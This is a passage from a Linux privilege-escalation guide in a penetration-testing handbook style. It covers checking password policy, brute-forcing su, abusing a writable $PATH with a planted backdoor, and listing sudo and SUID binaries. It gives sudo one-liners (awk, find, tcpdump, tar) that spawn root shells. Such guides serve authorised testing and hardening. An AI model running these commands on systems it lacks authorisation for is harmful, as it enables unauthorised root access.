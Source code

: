 ### Password Policy

```bash
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
```

### Known passwords

If you **know any password** of the environment **try to login as each user** using the password.

### Su Brute

If don't mind about doing a lot of noise and `su` and `timeout` binaries are present on the computer, you can try to brute-force user using [su-bruteforce](https://github.com/carlospolop/su-bruteforce).\
[**Linpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) with `-a` parameter also try to brute-force users.

## Writable PATH abuses

### $PATH

If you find that you can **write inside some folder of the $PATH** you may be able to escalate privileges by **creating a backdoor inside the writable folder** with the name of some command that is going to be executed by a different user (root ideally) and that is **not loaded from a folder that is located previous** to your writable folder in $PATH.

### SUDO and SUID

You could be allowed to execute some command using sudo or they could have the suid bit. Check it using:

```bash
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```

Some **unexpected commands allow you to read and/or write files or even execute a command.** For example:

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
sudo find /etc -exec sh -i \;
sudo tcpdump -n -i lo -G1 -w /dev/null -z ./runme.sh
sudo tar c a.tar -I ./runme.sh a
ftp>!/bin/sh
less>! <shell_comand>
```

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.
